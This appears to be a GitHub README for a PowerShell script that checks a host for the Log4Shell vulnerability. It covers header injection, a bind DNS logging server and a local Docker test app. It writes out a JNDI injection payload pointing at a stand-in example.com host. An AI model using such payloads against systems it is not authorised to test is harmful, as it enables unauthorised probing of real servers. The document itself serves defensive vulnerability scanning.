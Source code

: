 # CHAPTER8 - log4j PowerShell Checker

**[CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228)**

Perform a scan of a single host (using Powershell) to see if it's vulnerable for the above-mentioned CVE.
The scripts inject a payload into a request header like `User-Agent`. Important to note is that this is not sufficient for all applications! For example, VMware vCenter is vulnerable because of request header `X-Forwarded-For`. So please do some more research into what the vulnerability exactly is for the software that you're testing and adapt the script where needed.

_Updates_ 

* Added outgoing proxy support.
* Added `log4j_ps_checker_vcenter.ps1` for VMware vCenter Server.
	- For VMware vRealize and VMware NXS-T: instead of using these scripts, just add the payload to username field like this: `${jndi:ldap://mytestrecord.log4jdnsreq.example.com}`

---

## Usage

* Edit the `$NameServer` parameter inside the script on line 16
* Run it like this: `.\log4j_ps_checker.ps1 https://vulnerableserver:8443`

---

## Setting up a NameServer

1. Create a new (A) subdomain record for your domain, like `log4jcheck.example.com`; and
2. Point it to the IP of your freshly provisioned Ubuntu VPS.
3. Create another record, but this time an NS record pointing to the first record:

`log4jdnsreq 3600 IN  NS log4jcheck.example.com.`

4. Install bind on your Ubuntu VPS: `$ sudo apt install bind9`
5. Add the following to `/etc/bind/named.conf.options`:

```
    recursion no;
    allow-transfer { none; };
```

6. Configure logging by adding the following to `/etc/bind/named.conf.local`:

```
logging {
	channel querylog {
		file "/var/log/named/query.log";
		severity debug 3;
		print-time yes;
	};
	category queries { querylog;};
};
```

7. Create the log file from step 6 and give it the right permissions
	- `$ sudo mkdir /var/log/named && sudo touch /var/log/named/query.log`
	- `$ sudo chown bind:bind /var/log/named/query.log && sudo chmod 660 /var/log/named/query.log`
8. Start bind: `$ sudo systemctl start bind9`
9. Test if it works:
	- Run on your local machine: `dig testing.log4jdnsreq.example.com`
	- Check if you see the request coming in on your VPS in the file: `/var/log/named/query.log`

---

## (optional) Reproducing Locally

Want to test this first before you run it against a production system? Sure!

Check out [christophetd's](https://github.com/christophetd/log4shell-vulnerable-app) vulnerable app.
Be sure to have Docker installed. Then:

`docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app`

You should see an error message indicating that a remote lookup was attempted but failed:

```
2021-12-11 19:40:12,224 http-nio-8080-exec-8 WARN Error looking up JNDI resource [ldap://check1.log4jdnsreq.example.com/test.class]. javax.naming.CommunicationException: check1.log4jdnsreq.example.com:389 [Root exception is java.net.UnknownHostException: check1.log4jdnsreq.example.com]
```

**Important**: for this test to work, you should change `User-Agent` to `X-Api-Version` on line 63 (`$JsonHeader`) as christophetd's software only works with that specific header.

---

## Credits

Thanks to [@NorthwaveSecurity](https://github.com/NorthwaveSecurity) for providing me with the Python implementation and to [@christophetd](https://github.com/christophetd) for providing me with the PoC docker image.

* https://github.com/NorthwaveSecurity/log4jcheck
* https://github.com/christophetd/log4shell-vulnerable-app
* https://www.lunasec.io/docs/blog/log4j-zero-day/
* https://gist.github.com/byt3bl33d3r/46661bc206d323e6770907d259e009b6

## License

Open-sourced software licensed under the MIT license.

## Disclaimer

This script has been written specifically for Windows environments. Do not try to use it with custom ports of PowerShell.
